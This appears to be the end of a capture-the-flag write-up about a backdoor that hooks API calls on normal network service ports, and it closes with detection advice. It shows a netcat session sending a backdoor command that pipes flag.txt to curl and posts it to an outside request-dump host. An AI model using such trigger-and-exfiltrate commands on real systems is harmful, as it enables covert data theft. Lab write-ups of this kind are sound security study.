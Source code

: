 ## Now it's Flag Time!
```
$ nc injector.challenges.adversary.zone 4321
cmd{cat flag.txt | curl -X POST --data-binary @- https://httpdump.io/hwie_}
```
Flag: **CS{fr33_h00k_b4ckd00r}**

## Conclusion
This challenge has been a great learning experience, comprising different aspects of cyber security offense and defense.
The backdoor is triggered through normal network services and their listening ports. There is no extra listen port, no seperate backdoor process running.
Detection of API hooking seems like an important step in finding backdoors like this.
